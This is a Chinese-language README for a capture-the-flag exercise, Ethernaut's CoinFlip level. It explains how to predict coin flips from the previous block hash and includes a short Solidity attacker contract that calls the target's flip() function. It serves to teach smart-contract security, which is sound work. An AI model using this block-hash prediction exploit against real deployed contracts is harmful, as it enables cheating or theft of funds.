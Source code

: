# 18_CoinFlip Project

一、挑戰攻破 Ethernaut CTF 第 3 題： CoinFlip

 - 勝利條件：連續猜中硬幣正反面 10 次，使得 ```consecutiveWins``` 的值為 10
 - 知識儲備：Solidity 全域變數、區塊哈希值、Chainlink VRF、Solidity 的介面與強制轉型與調用外部合約函數的技巧


二、解題思路：

1. 先部屬 CoinFlipExtensions 合約，體驗一下 ```block.number``` 、 ```blockhash()``` 的值
2. 構思一個攻擊合約，可以使攻擊合約調用 CoinFlip 合約的函數，因為這會使得兩份合約的 ```block.number``` 、 ```blockhash()``` 的值相同 (同一個區塊內執行)
3. 在攻擊合約內，根據區塊哈希算出來的結果，猜測正反面，並將結果作為參數呼叫 CoinFlip 的 ```flip()```
4. 在 javascript 上，重複呼叫攻擊合約，攻擊 10 次


三、Solidity 技巧補充：關於在合約內部調用外部合約的方法

```solidity
contract CoinFlipAttacker {
    ICoinFlip public target;
    //......

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

1. 撰寫介面，定義你要調用外部合約的函數
2. 將你要調用的合約地址，強制轉型成該介面型別
3. 呼叫該函數